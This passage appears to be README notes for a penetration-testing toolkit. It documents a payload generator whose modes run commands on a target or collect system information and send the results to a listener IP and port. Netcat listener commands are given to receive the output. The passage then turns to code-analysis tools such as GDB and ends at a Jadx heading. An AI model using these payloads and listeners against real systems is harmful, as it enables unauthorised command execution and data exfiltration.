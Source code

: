 #### PG: Command Execution
Example:
`python3 payloadgenerator.py -e cmd -li LISTERNERIP -lp LISTENERPORT -c COMMAND TO EXE`

Usage:
Set up one listener shell to listen for the output of the command
	`nc -w CONNECTIONTIMEOUTLENGTH -knlp PORT`
 
The script requires the following arguments to generate the payload:
> -c command(s) to execute on target machine
> -li: ip of the shell listening for the hash of the file
> -lp: the port used for the shell listening for the hash (PORT2)

#### System Info Payload
Outputs information about the host system

Example Command:
`python3 payloadgenerator.py -e sysinfo -li LISTERNERIP -lp LISTENERPORT`

Usage:
Set up one listener shell to listen for the output of the command
	nc -w CONNECTIONTIMEOUTLENGTH -knlp PORT
 
The script requires the following arguments to generate the payload:
> -li: ip of the shell listening for the hash of the file
> -lp: the port used for the shell listening for the hash (PORT2)

### Code Analysis

Useful tools and commands for code analysis

#### Open Source

Some software will be open source and able to be analyzed without use of tools

#### GDB

GNU Debugger, supports the following languages:
1. Ada
2. Assembly
3. C
4. C++ 
5. D
6. Fortran
7. Go
8. Objective-C
9. OpenCL
10. Modula-2
11. Pascal
12. Rust

`sudo apt install gdb`

[Useful Cheatsheet](http://users.ece.utexas.edu/~adnan/gdb-refcard.pdf)

#### Jadx
